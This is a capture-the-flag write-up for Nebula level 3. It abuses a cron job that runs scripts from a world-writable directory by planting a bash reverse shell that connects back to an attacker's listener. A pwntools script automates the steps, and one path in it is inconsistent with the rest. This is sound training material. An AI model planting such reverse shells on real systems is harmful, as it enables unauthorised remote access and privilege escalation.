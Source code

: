 # Level03

> Check the home directory of **flag03** and take note of the files there.
>
> There is a crontab that is called every couple of minutes.
>
> To do this level, log in as the **level03** account with the password level03. Files for this level can be found in /home/flag03.

#### Solution

```bash
level03@nebula:/home/flag03$ ls -la
total 6
drwxr-x--- 3 flag03 level03  103 2011-11-20 20:39 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
-rw-r--r-- 1 flag03 flag03   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag03 flag03  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag03 flag03   675 2011-05-18 02:54 .profile
drwxrwxrwx 2 flag03 flag03     3 2012-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03    98 2011-11-20 21:22 writable.sh
level03@nebula:/home/flag03$ cat writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

So, here's a directory `writable.d` owned by flag03(target) and we have read, write and execute permission on it. A script `writable.sh` is also there which is firstly executing one by one files under that `writable.d` directory and then remove it.

What if we create a malicious bash script inside that folder, so that whenever that `writable.sh` triggered by flag03(cronjob), the script we made will executed and so, that we will gain shell as flag03.

```bash
level03@nebula:/home/flag03$ cd writable.d/
level03@nebula:/home/flag03/writable.d$ echo '/bin/bash -i >& /dev/tcp/192.168.117.128/4445 0>&1' > script.sh
level03@nebula:/home/flag03/writable.d$ chmod +x script.sh
level03@nebula:/home/flag03/writable.d$ ls -la
total 4
drwxrwxrwx 1 flag03  flag03  60 2025-09-25 02:24 .
drwxr-x--- 1 flag03  level03 60 2011-11-20 20:39 ..
-rwxrwxr-x 1 level03 level03 51 2025-09-25 02:24 script.sh
```

And we got reverse shell on the listener.

```bash
┌──(ghost㉿kali)-[~]
└─$ rlwrap -f . -r nc -nvlp 4445
listening on [any] 4445 ...
connect to [192.168.117.128] from (UNKNOWN) [192.168.117.140] 51475
bash: no job control in this shell
flag03@nebula:~$ id
id
uid=996(flag03) gid=996(flag03) groups=996(flag03)
flag03@nebula:~$ getflag
getflag
You have successfully executed getflag on a target account
```

***

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    sys.exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level03', password='level03')

# start a remote shell
terminal = session.shell()

# Making a reverse shell inside writable.d directory
terminal.sendline("echo '/bin/bash -i >& /dev/tcp/192.168.117.128/4445 0>&1' > /home/flag03/writable.d/rev.sh")
terminal.sendline("chmod +x /home/flag03/writable/rev.sh")

terminal.interactive()
```

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

***
